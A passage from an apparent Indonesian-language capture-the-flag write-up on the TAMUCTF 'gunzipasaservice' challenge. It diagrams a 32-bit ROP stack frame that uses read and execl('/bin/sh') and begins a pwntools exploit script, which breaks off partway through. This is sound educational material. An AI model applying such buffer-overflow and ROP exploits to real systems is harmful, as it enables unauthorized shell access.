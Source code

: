```
gunzipasaservice      gunzipasaservice.nam  payChristo.py
gunzipasaservice.id0  gunzipasaservice.til  README.md
$ id
uid=1000(chao) gid=1000(chao) groups=1000(chao),4(adm),24(cdrom),27(sudo),29(audio),30(dip),46(plugdev),116(lpadmin),126(sambashare),129(kvm),999(docker)
$ 
```
Namun sayang sekali **LAGI LAGI** kami mendapatkan **EOF** di remote host ^o^.<br>
Pada stage ini kami sangat ingin berkata kasar, namun kami tahan karena kami masih memiliki ide lain.<br>
Pada script modifikasi terakhir kami, kami melakukan **ROP** sebanyak 2 kali, mungkin **ROP** kedua tidak diterima oleh binary. Nah kali ini, kami melakukan input **ROPchain** sebanyak 1 kali saja dengan melakukan bayang bayang dan imajinasi terhadap stack :).<br>
Berikut merupakan stackframe yang kami bayangkan untuk membuat **ROPchain**.<br>
```
+--------------+
|  "A" * 1048  |    // padding untuk melakukan overwrite return address
+--------------+
|     Read     |    // return address
+--------------+
|    Gadget    |    // add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret 
+--------------+
| argumen1(fd) |    // file descriptor, untuk stdin adalah 0
+--------------+
| argumen2(bss)|    // address tujuan, untuk kasus ini saya isi bss
+--------------+
| argumen3(len)|    // panjang input, bebas berapa-pun asal mencukupi untuk mengisi string '/bin/sh'
+--------------+
|     ebx      |    // Mengisi ebx, karena di pop
+--------------+
|     esi      |    // Mengisi esi, karena di pop
+--------------+
|     edi      |    // Mengisi edi, karena di pop
+--------------+
|     ebp      |    // Mengisi ebp, karena di pop
+--------------+
|    execl     |    // Memanggil fungsi execl
+--------------+
|     JUNK     |
+--------------+
| argumen1(bss)|    // Karena string /bin/sh sudah kami inputkan di bss, maka kami hanya perlua mengisi bss sebagai argumen
+--------------+
|  argumen2(0) |    // Untuk memanggil shell, argumen 2 dan 3 kita berikan null
+--------------+
|  argumen3(0) |    // Untuk memanggil shell, argumen 2 dan 3 kita berikan null. Jika disederhanakan akan menjadi seperti execl('/bin/sh, 0, 0)
+--------------+
```
Setelah membayangkan stackframe tersebut, kami mencoba untuk membuat exploit yang baru lagi.<br>
Berikut merupakan script hasil modifikasi terakhir kami.<br>
```
def exploit3():
    p = process("./gunzipasaservice")
    #p = remote("challenges.tamuctf.com", 4709)
    binary = ELF("./gunzipasaservice")
    bss = 0x0804c044 + 0x100
    add_esp = 0x08049475    # add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret

    payload = ''
    payload += 'A' * 1048
    payload += p32(binary.symbols['read'])
    payload += p32(add_esp)
```